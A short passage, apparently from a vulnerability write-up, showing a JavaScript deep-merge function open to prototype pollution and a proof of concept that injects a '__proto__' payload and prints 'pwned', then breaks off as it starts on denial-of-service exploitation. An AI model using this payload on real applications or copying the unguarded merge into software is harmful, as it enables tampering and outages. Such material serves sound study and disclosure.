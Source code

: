 _pollution.js_
```javascript
function isObject(item) {
    return (item && typeof item === "object" && !Array.isArray(item));
}

/**
 * Deep Object.assign.
 *
 * @see http://stackoverflow.com/a/34749873
 */
function mergeDeep(target, ...sources) {
    if (!sources.length) return target;
    const source = sources.shift();

    if (isObject(target) && isObject(source)) {
        for (const key in source) {
            const value = source[key];
            if (value instanceof Promise)
                continue;

            if (isObject(value)
                && !(value instanceof Map)
                && !(value instanceof Set)
                && !(value instanceof Date)
                && !(value instanceof Buffer)
                && !(value instanceof RegExp)
                && !(value instanceof URL)) {
                if (!target[key])
                    Object.assign(target, { [key]: Object.create(Object.getPrototypeOf(value)) });
                mergeDeep(target[key], value);
            } else {
                Object.assign(target, { [key]: value });
            }
        }
    }

    return mergeDeep(target, ...sources);
}

const a = {}
const b = JSON.parse(`{"__proto__":{"polluted":true}}`)

mergeDeep(a, b)
console.log(`pwned: ${({}).polluted}`)
```

## Exploitation

By naively exploiting the vulnerability, we can cause a denial of service in the running application, for example by causing a loop in the prototype chain as in the following payload:
